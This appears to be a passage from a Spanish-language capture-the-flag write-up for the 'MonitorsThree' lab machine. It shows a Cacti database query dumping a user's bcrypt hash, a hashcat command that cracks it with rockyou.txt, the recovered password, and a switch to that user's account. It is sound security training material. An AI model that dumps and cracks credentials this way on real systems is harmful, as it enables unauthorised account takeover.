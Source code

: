 Vemos que `marcus` tiene una cuenta en la instancia de Cacti.
```shell
MariaDB [cacti]> select * from user_auth where username='marcus';
+----+----------+--------------------------------------------------------------+-------+-----------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
| id | username | password                                                     | realm | full_name | email_address            | must_change_password | password_change | show_tree | show_list | show_preview | graph_settings | login_opts | policy_graphs | policy_trees | policy_hosts | policy_graph_templates | enabled | lastchange | lastlogin | password_history | locked | failed_attempts | lastfail | reset_perms |
+----+----------+--------------------------------------------------------------+-------+-----------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
|  4 | marcus   | $2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK |     0 | Marcus    | marcus@monitorsthree.htb |                      | on              | on        | on        | on           | on             |          1 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 |                  |        |               0 |        0 |  1677427318 |
+----+----------+--------------------------------------------------------------+-------+-----------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
```

Vemos un hash que probablemente sea `bcrypt`, podemos probar a crackearlo con `hashcat` ya que este hash no está contemplado en https://hashes.com


```shell
.\hashcat.exe -a 0 -m 3200 .\hash.txt .\rockyou.txt
```

Y conseguimos crackearla.

`$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK:12345678910`
![Write-up Image](images/Screenshot_17.png)

Y podemos migrar al usuario `marcus`

```shell
(remote) www-data@monitorsthree:/var/www/html/cacti/include$ su marcus
Password: 
marcus@monitorsthree:/var/www/html/cacti/include$ id
uid=1000(marcus) gid=1000(marcus) groups=1000(marcus)
```
